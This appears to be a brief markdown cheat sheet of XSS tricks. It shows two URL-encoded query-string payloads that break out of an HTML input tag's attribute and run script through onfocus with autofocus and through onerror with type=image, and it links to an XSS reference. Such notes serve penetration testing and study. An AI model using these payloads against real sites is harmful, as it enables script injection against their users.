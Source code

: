 # XSS

## Legend

Symbol/Abbr. | Description
-------------|------------
✔ | Finished
❌ | Rejected / Not done
! | Important
X -> Y | X has resulted in Y
X &-> Y |X depends on Y

## XSS in `<input ../>` attribute

Use `onfocus` event with the `autofocus` HTML5 attribute:

    [path]?q=aaaaa%20onfocus%3Dalert%281%29%20autofocus%20     # aaaaa onfocus=alert(1) autofocus

---

Change the `<input .. />` type to `image` with adding `type=image` - [Input image type](http://html.com/input-type-image/):

    [path]?q=x%20src%3Dx%20onerror%3Dalert%281%29%20type%3Dimage    # x src=x onerror=alert(1) type=image


## References

URL | Description
----|------------
[HTML Purifier](http://htmlpurifier.org/live/smoketests/xssAttacks.php) | Very good reference for XSS tricks